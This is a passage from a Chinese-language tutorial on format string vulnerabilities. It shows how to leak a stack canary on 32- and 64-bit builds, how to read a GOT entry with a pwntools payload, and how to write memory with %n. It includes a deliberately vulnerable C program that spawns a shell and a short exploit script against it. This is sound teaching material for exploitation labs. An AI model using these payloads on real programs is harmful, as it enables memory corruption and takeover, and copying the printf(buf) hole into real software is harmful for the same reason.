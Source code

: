 ![16a9daaef6d1c3a0010b439009020fb1](images/16a9daaef6d1c3a0010b439009020fb1.png)  

这个泄露出来的值可以看出来很明显的canary特征。我们再将其编译为64位程序来看一下

```bash
gcc format_leak_x32.c -o format_leak_x64
```

![38b46bc2541a2460fcd50089e840b52f](images/38b46bc2541a2460fcd50089e840b52f.png)  

64位和32位不同的地方在于64位函数的前6个参数都是通过寄存器来传递的，超过的才会用到栈

![0d84229e17b1689ec1777abb883dbcca](images/0d84229e17b1689ec1777abb883dbcca.png)  

所以这里canary对于格式化字符串参数的偏移量为5个参数寄存器+4个栈单元=9，输入 `%9$p` 即可泄露canary值

![88e7cb225ec2cb07e2b10c5b6679152f](images/88e7cb225ec2cb07e2b10c5b6679152f.png)  

再来看看如何泄露其他地方的值，比如泄露got表内容，还是以上面那个32位例子来看，我们这里需要用到got表的地址再加上 `%s` 即可泄露。首先我们需要通过调试来确定buf距离格式化字符串的偏移量，因为我们的got表地址是存储在buf中的，我们需要通过参数控制符来让 `%s` 读取该地址的内容。从之前的分析可以看到偏移量为7，所以payload可以这样写

```python
payload = p32(printf_got) + b"%7$s"
```

![4b74ecf6c60f48346c9239a3bbb7c597](images/4b74ecf6c60f48346c9239a3bbb7c597.png)  

任意写则是通过 `%n` 来实现，该格式控制符也需要一个指针来作为参数，通常该格式化控制符一次性写入的是4个字节，但是我们可以通过长度控制符来控制一次性写入的字节，举个例子

```cpp
#include<stdio.h>
#include<stdlib.h>
int a = 0x12345678;
int main() {
    char buf[0x10];
    scanf("%16s", buf);
    printf(buf);
    printf("\na: %x\n", a);
    if(a == 0x12345604) {
        system("/bin/sh");
    } else {
        printf("err\n");
    }
    return 0;
}
// gcc format_attack_x32.c -o format_attack_x32 -no-pie -m32
```

如果不加长度控制符的话，则会覆盖掉a所有的值

```python
from pwn import *
# context.log_level = 'debug'
o = process("./format_attack_x32")
elf = ELF("./format_attack_x32")
a = 0x804a02c
payload = p32(a) + b"%7$n"
o.sendline(payload)
o.interactive()
```
